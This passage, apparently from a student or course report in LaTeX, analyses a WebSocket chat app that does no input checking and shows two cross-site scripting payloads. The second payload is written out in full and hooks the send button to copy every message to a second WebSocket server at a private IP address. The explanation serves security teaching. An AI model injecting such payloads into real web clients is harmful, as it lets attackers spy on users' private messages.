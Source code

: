 	The HTML page shows the messages and a little form to write and send a message.\newline
	The JavaScript code handles the interface and the WebSocket connection, when the button is clicked by the user, the message is added to the chatbox and sent to the WebSocket server that will forward it to the other client (if present).\newline
	The Java code creates a WebSocket server that handles only two connections and simply acts as a proxy between the two clients.\newline
	Neither the client neither the server perform a check of the incoming data, from the point of view of the server it is not a problem, it does nothing more than simply forward the message to the other client, but we could say that it is not guaranteeing a secure communication between the two clients.\newline
	On the other hand the client is severely at risk, in fact if client A is chatting with client B, and client B sends the following message:\newline
	
	\begin{lstlisting}[language=html]
	<img src=1 hidden onerror=”alert('HACKED!!')”>
	\end{lstlisting}
	
	Then an alert box will compare on the other client’s browser (even on the client which send the message).
	In this case the other client is leaved unharmed, but if the code placed inside the \texttt{onerror} callback is a bit more complex it can create serious harm to the client, for example we could open another WebSocket connection in order to spy the user, for example:
	
	\begin{lstlisting}[language=html]
		<img src=1 hidden onerror="var badws=new WebSocket('ws://10.0.3.40:8080/'); function send(){var msg=document.getElementById('msg').value;addMsg(msg);ws.send(msg);badws.send(msg);} var tmp=document.getElementById('send'); tmp.onclick=send;">
	\end{lstlisting}
	
	In this example we created a new WebSocket and defined again the \texttt{send(…)} function invoked by the button that sends a message, we added: \texttt{badws.send(msg)} in order to forward the message to another server.
	The code for the malicious server is very similar to the code of the legitimate WebSocket server, it only writes on the console the received messages.
	
